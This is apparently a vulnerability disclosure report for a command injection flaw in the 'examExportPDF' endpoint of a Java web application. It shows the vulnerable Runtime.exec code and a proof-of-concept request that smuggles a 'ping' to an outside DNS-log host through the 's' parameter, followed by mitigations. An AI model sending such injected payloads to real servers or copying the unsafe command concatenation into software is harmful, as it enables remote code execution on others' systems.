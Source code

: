 ![image-20250221191743022](./assets/image-20250221191743022.png)

# Vulnerability Report

## Title: Command Injection Vulnerability To RCE

### Summary:
A command injection vulnerability To RCE exists in the `examExportPDF` method of the `AdminPlanController` class. This vulnerability allows an attacker to execute arbitrary commands on the server by manipulating the `s` parameter in the request.

### Affected Endpoint:
`/admin/plan/examExportPDF`

### Vulnerability Type:
Command Injection To RCE

### Vulnerable Code:
```java
@Controller
@RequestMapping({"/admin"})
public class AdminPlanController extends EduBaseController {
  
  // ... Other code ...

  @RequestMapping({"/plan/examExportPDF"})
  public void examExportPDF(HttpServletResponse response, @RequestParam("s") String s) {
    try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
        dir.mkdir();
      }

      Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
              + CommonConstants.contextPath + "/plan/exam/info?s="
              + s
              + " "
              + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
        out.write(buf, 0, len);
      }

      in.close();
    } catch (Exception var13) {
      logger.error("---------------------" + var13);
    }
  }
}
```

### Proof of Concept (PoC):
An attacker can exploit this vulnerability by sending a specially crafted request to the affected endpoint. For example:

```
GET https://uri/admin/plan/examExportPDF?s=;ping 3e98dd86.log.dnslog.sbs.;
```

This request will execute the `ping` command on the server, sending a ping to the specified DNS log server, thus demonstrating the ability to execute arbitrary commands.

![image-20250221192227099](./assets/image-20250221192227099.png)

### Impact:
The impact of this vulnerability is critical as it allows an attacker to execute arbitrary commands on the server, potentially leading to full system compromise, data exfiltration, and further attacks on the network.

### Recommendation:
To mitigate this vulnerability, avoid using user-supplied input directly in command execution. Instead, use safer alternatives such as:

1. **Sanitize Input:** Validate and sanitize the input to ensure it does not contain any malicious content.
2. **Use Parameterized Commands:** Use APIs that support parameterized commands to prevent injection attacks.

For example, if using a command-line tool is unavoidable, consider using a library that escapes arguments properly or constructs the command in a safe manner.

### Conclusion:
The `examExportPDF` method in the `AdminPlanController` class is vulnerable to command injection due to improper handling of user input. This allows attackers to execute arbitrary commands on the server, posing a significant security risk. It is crucial to apply the recommended mitigations to secure the application.

### References:
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')](https://cwe.mitre.org/data/definitions/77.html)




